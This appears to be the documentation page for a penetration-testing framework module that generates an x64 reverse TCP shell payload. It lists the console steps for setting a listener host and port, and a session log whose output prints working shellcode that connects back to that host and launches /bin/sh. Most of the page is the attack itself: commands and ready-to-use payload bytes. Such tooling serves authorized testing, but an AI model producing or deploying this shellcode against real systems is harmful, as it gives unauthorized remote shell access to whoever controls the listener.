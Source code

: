 ## Description

Module generates payload that creates interactive tcp reverse shell for X64 architecture.

## Verification Steps

  1. Start `./rsf.py`
  2. Do: `use payloads/x64/reverse_tcp`
  3. Do: `set lhost 192.168.1.4`
  4. Do: `set lport 4321`
  5. Module generates x64 reverse shell tcp payload

## Scenarios

```
rsf > use payloads/x64/reverse_tcp
rsf (X64 Reverse TCP) > set lhost 192.168.1.4
[+] lhost => 192.168.1.4
rsf (X64 Reverse TCP) > set lport 4321
[+] lport => 4321
rsf (X64 Reverse TCP) > run
[*] Running module...
[*] Generating payload
[+] Building payload for python
payload = (
    "\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f\x05\x48\x97\x48"
    "\xb9\x02\x00\x10\xe1\xc0\xa8\x01\x04\x51\x48\x89\xe6\x6a\x10"
    "\x5a\x6a\x2a\x58\x0f\x05\x6a\x03\x5e\x48\xff\xce\x6a\x21\x58"
    "\x0f\x05\x75\xf6\x6a\x3b\x58\x99\x48\xbb\x2f\x62\x69\x6e\x2f"
    "\x73\x68\x00\x53\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05"
)
```
